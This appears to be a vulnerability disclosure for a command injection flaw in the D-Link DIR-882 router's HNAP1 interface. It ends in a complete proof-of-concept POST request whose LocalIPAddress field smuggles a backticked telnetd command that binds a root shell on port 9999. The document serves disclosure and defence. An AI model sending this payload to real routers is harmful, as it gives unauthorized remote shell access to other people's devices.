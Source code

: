 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882

Version:DIR_882_FW1.30B06_Hotfix_02(Download Link:https://support.dlink.com/productinfo.aspx?m=DIR-882-US)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

`LocalIPAddress` is directly passed by the attacker.After that, call the function sub_45651C.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `libfcgi.so` binary:

Eventually, the initial input cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

Because the firmware of dir-878 is similar to dir-882, dir-878 may also have the same problem. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `Username` as **`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153**, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: 9E6B4A7474510C8EA53D489BB0B327DF 1640594925146
Content-Length: 787
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/VirtualServer.html
Cookie: uid=n9g9DHeR

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>pjqwudi</VirtualServerDescription>
					<ExternalPort>9</ExternalPort>
					<InternalPort>9</InternalPort>
					<ProtocolType>UDP</ProtocolType>
					<ProtocolNumber>17</ProtocolNumber>
					<LocalIPAddress>`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>
